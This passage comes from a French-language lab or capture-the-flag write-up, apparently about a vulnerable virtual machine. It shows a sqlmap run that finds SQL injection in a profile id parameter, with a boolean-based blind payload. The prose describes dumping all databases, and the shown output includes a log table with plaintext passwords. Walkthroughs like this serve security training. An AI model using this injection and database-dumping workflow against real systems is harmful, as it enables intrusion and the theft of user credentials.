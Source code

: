 ```console
root@blinils:~# sqlmap -u "http://192.168.56.103/profile&id=114"
--snip--
[18:18:18] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[18:18:18] [INFO] heuristic (XSS) test shows that URI parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[19:19:19] [INFO] URI parameter '#1*' appears to be 'Boolean-based blind - Parameter replace (original value)' injectable (with --string="test@test.test")
--snip--
[20:20:20] [INFO] URI parameter '#1*' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
--snip--
[21:21:21] [INFO] target URL appears to have 7 columns in query
[21:21:21] [INFO] target URL appears to be UNION injectable with 7 columns
[21:21:21] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
--snip--
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: http://192.168.56.103:80/profile&id=(SELECT (CASE WHEN (4117=4117) THEN 114 ELSE (SELECT 3378 UNION SELECT 4510) END))

--snip--
[22:22:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 6.8
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL >= 5.0
```

En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le paramètre testé _id_ est vulnérable aux injections SQL. Après plusieurs tentatives, SQLMap récupère les tables (--tables) ainsi que les colonnes (--columns) présentes dans chaque base de données trouvée (--dbs), et tant qu'à faire, autant récupérer tout le contenu de la base de données (--dump-all). Voici en bref les résultats remontés par l'outil.

```console
[*] information_schema
[*] mysql
[*] roundcube
[*] website

Database: website
[9 tables]
+-------------------+
| contact           |
| documents         |
| hits              |
| log               |
| newsletter        |
| payment           |
| trainings         |
| trainings_x_users |
| users             |
+-------------------+

Database: website
Table: log
[5 entries]
+----+------------------------------------------------------------------------------------+
| id | message                                                                            |
+----+------------------------------------------------------------------------------------+
| 1  | User test@nowhere.com registered with id 113 and password test                     |
| 2  | User ruby@localhost.localdomain reset their password to Shelly2012                 |
```